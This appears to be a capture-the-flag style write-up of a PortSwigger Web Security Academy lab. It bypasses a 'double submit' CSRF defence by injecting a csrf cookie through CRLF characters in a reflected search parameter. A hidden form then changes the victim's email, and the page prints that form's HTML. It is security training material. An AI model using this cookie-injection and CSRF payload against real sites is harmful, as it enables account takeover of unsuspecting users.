







# CSRF where token is duplicated in cookie
# Objective
This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter` 

# Solution
## Analysis
This website uses duplicated `csrf` token which is duplicated as cookie value.

||
|:--:| 
| *Test of change email functionality* |

Moreover, latest search is stored as cookie value in user browser - search term is reflected in the Set-Cookie header.

||
|:--:| 
| *Cookie - Latest search term* |
||
| *Set-Cookie - Latest search term* |
||
| *Cookie - Latest search term* |


## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below)
  - Create a URL to inject your `csrf` cookie into the victim's browser
  - Craft POST request to `/my-account/change-email` with valid `csrf` token
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

URL encoded characters `%0d%0a` are `\r\n` (carriage return and line feed). They are used to seperate headers in HTTP/1.1 requests.

```html
<form method="POST" action="https://0a94007c04d795cc81ea2f0100720054.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
    <input type="hidden" name="csrf" value="dXzgLm0ug5r3yitGeoXZtsLlIfhGFh5W">
</form>


```

||
|:--:| 
| *Test of csrf cookie injection - View exploit option* |
||
| *URL decoded payload* |
||
| *Final payload* |
